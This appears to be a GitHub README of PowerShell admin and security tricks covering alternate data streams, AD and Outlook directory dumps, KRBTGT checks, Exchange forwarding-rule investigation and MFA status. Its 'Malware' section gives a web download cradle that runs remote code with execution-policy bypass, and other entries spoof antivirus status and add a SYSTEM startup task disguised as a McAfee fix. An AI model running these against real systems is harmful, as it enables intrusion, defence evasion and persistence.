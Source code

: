# PowerShell
PowerShell scripts and tricks

# Usefull cmdlets
## Filesystem
### Get hidden streams 
":$DATA" is normal. Everything else is not. 
```powershell
Get-Item -Path C:\path\* -Stream * | ?{$_.stream -notlike ":`$DATA"} | select FileName, Stream, Length
```

## Events
### get powershell logs
```powershell
Get-WinEvent "Microsoft-Windows-PowerShell/Operational" -Oldest | ? ID -eq 4104 | select TimeCreated, ID, Message | ft -wrap
```

## It's alive!
```powershell
 Add-Type -AN System.Speech;[System.Speech.Synthesis.SpeechSynthesizer]::new().Speak("Kill all h
umans!")
```
## Windows Domain 
### Get list of PCs from AD group
```powershell
 Get-ADComputer -Filter * -SearchBase "OU=Windows 10,OU=Computers,OU=,DC=,DC=net"
 | select -ExpandProperty Name
```
 or
 ```powershell
 dsquery computer "OU=Windows 10,OU=Computers,OU=,DC=,DC=net" -o rdn`
 ```
 
 ### Get list of users with local admin access
 ```powershell
 Get-LocalGroupMember -name Administrators
 ```
 ```powershell
 Get-LocalGroupMember -name Administrators |? {$_.ObjectClass -eq "Group"} | % {Get-ADGroupMember $_.name.Split('\')[1] -Recursive} | % {Get-ADUser $_.SamAccount
Name -properties Enabled, PasswordLastSet, PasswordNeverExpires, LastLogonDate, BadLogonCount, LastBadPasswordAttempt, LockedOut, BadPwdCount} | select Name, SamAccountName, Enabled, Pa
sswordLastSet, PasswordNeverExpires, LastLogonDate, BadLogonCount, LastBadPasswordAttempt, LockedOut, BadPwdCount | ft
 ```
 
 ### get all users in the domain
 ```powershell
 Get-ADUser -Filter * -SearchBase "DC=sigma,DC=sbrf,DC=ru" -Properties enabled,Name,Surname...... | export-csv login.csv -NoTypeInformation
 ```
 via Outlook address book
 ```powershell
 [Microsoft.Office.Interop.Outlook.Application] $outlook = New-Object -ComObject Outlook.Application
$entries = $outlook.Session.GetGlobalAddressList().AddressEntries
$content = @()

foreach($entry in $entries){
   $content += New-Object PsObject -property @{
    'Name' = $entry.Name
    'PrimarySmtpAddress' = $entry.GetExchangeUser().PrimarySmtpAddress
    'JobTitle'= $entry.GetExchangeUser().JobTitle
    'MobileTelephoneNumber'= $entry.GetExchangeUser().MobileTelephoneNumber
      }
}

#export to csv
$content | export-csv Outlook.csv -NoTypeInformation
```
 
 ### Get KRBTGT info
```powershell
Get-ADUser -Filter{SamAccountName -like "krbtgt*"} -Properties PasswordLastSet,msDS-KeyVersionNumber, msDS-KrbTgtLinkBl
```
note: krbtgt_XXX accoutns are owned by RODC, KeyVersion == 1 means password was never changed

## Get AV status
```powershell
Get-WmiObject -Namespace root\SecurityCenter2 -Class AntiVirusProduct  -ComputerName  $env:computername`
```

## Set AV status
```powershell
Set-WmiInstance -Path '\\HOSTNAME\root\SecurityCenter2:AntiVirusProduct.instanceGuid="{1006DC03-1FB1-9E52-7C81-F2FAB48962E3}"' -Argument @{productState="397312"}
```

## Autostart smtng

$taskName = "McAfee VSEp10 fix"
$action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-File "C:\Temp\test.ps1"'
$trigger = New-ScheduledTaskTrigger -AtStartup -RandomDelay 00:00:30
$settings = New-ScheduledTaskSettingsSet -Compatibility Win8
$principal = New-ScheduledTaskPrincipal -UserId SYSTEM -LogonType ServiceAccount -RunLevel Highest
$definition = New-ScheduledTask -Action $action -Principal $principal -Trigger $trigger -Settings $settings -Description "Run $($taskName) at startup"
Register-ScheduledTask -TaskName $taskName -InputObject $definition

Get-ScheduledTask -TaskName $taskName -ErrorAction SilentlyContinue 


## Mail investigations
### Retrieve all rules - high level
Get-Mailbox -ResultSize unlimited | Get-InboxRule -ErrorAction:SilentlyContinue | format-table -Autosize MailboxOwnerID,name,from,redirectto,ForwardTo > c:\Forwarding_Rules.csv	
### Retrieve all rules - detailed
Get-Mailbox -ResultSize Unlimited | % {Get-InboxRule -Mailbox $_.UserPrincipalName} | Select MailboxOwnerID, Name, Description | Export-Csv allruleresults.csv -NoTypeInformation

Get-Mailbox -ResultSize Unlimited | % {Get-InboxRule -Mailbox $_.UserPrincipalName | ? {($_.ForwardTo -ne $null) -or ($_.ForwardAsAttachmentTo -ne $null) -or ($_.RedirectsTo -ne $null)} } | Select MailBoxOwnerID, Name, ForwardTo, ForwardAsAttachmentTo, RedirectTo | Export-Csv allrulesenabled.csv -NoTypeInformation	
### Check for email forwarding for one email address
Get-Mailbox [EmailAddress] | fl ForwardingSMTPAddress,DeliverToMailboxandForward
Get-Mailbox | where {$_.ForwardingAddress -ne $null} | Select Name, ForwardingAddress, DeliverToMailboxAndForward
### Find all email forwarding in the domain
Get-Mailbox -ResultSize Unlimited | Select Name, Alias, ServerName, DeliverToMailboxAndForward | where {$_.DeliverToMailboxAndForward -eq "true"} | Export-Csv ExchangeFWDlist.csv -NoTypeInformation
### Remove an email forward
Set-Mailbox -Identity [EmailAddress] -DeliverToMailboxAndForward $false -ForwardingSMTPAddress $null
### Remove all email forwarding on the domain
Get-Mailbox | Where {$_.ForwardingAddress -ne $null} | Set-Mailbox -ForwardingAddress $null -DeliverToMailboxAndForward $false	
### Send results to a CSV file
[command]| Export-Csv c:\path\to\file.csv -NoTypeInformation	

## Office365
### Get MFA status
```powershell
Connect-MsolService
$User = Get-MSolUser -UserPrincipalName user@domain.com
$User.StrongAuthenticationMethods
```

## Malware
### start in memory from web cradle
```powershell
powershell.exe –ep Bypass –nop –noexit –c iex (New-Object System.Net.WebClient).DownloadString(“https://bit.ly/M@1w@r3”)
```
### start from file and avoid execution bypass policy
```powershell
gc .\test.ps1 | powershell -
```
